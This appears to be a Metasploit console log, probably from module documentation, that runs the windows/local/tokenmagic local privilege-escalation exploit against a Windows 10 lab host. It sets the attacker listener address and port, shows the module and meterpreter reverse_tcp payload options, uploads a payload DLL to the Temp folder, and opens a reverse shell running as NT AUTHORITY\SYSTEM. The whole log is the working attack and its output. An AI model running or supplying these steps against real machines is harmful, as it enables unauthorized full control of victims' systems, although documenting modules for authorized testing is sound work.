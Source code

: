 ```
msf6 exploit(windows/local/tokenmagic) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/tokenmagic) > set LHOST 172.16.199.1
LHOST => 172.16.199.1
msf6 exploit(windows/local/tokenmagic) > set LPORT 4443
LPORT => 4443
msf6 exploit(windows/local/tokenmagic) > show options

Module options (exploit/windows/local/tokenmagic):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   JOB_WAIT_TIME     5                yes       Time to wait for the tokenmagic script to run before starting the USO service to execute the uploaded payload, in seconds
   METHOD            DLL              yes       SERVICE or DLL, please select which attack method you would like to use (SERVICE by default).
   SERVICE_FILENAME  MFOCANMqe        no        Filename for Service Payload (%RAND% by default).
   SERVICE_NAME      VElyD            no        Service Name to use (%RAND% by default).
   SESSION           1                yes       The session to run this module on.
   WRITABLE_DIR                       no        Location of file to overwrite (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/tokenmagic) > run

[*] Started reverse TCP handler on 172.16.199.1:4443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Payload DLL is 8704 bytes long
[*] Attempting to PrivEsc on DESKTOP-O5RD7G3 via session ID: 1
[*] Uploading payload to C:\Users\msfuser\AppData\Local\Temp\WindowsCoreDeviceInfo.dll
[*] Running Exploit on DESKTOP-O5RD7G3
[*] Executing 
[*] Sending stage (200262 bytes) to 172.16.199.135
[+] Deleted C:\Users\msfuser\AppData\Local\Temp\WindowsCoreDeviceInfo.dll
[*] Meterpreter session 2 opened (172.16.199.1:4443 -> 172.16.199.135:49868) at 2021-05-07 14:22:51 -0400
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-O5RD7G3
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
```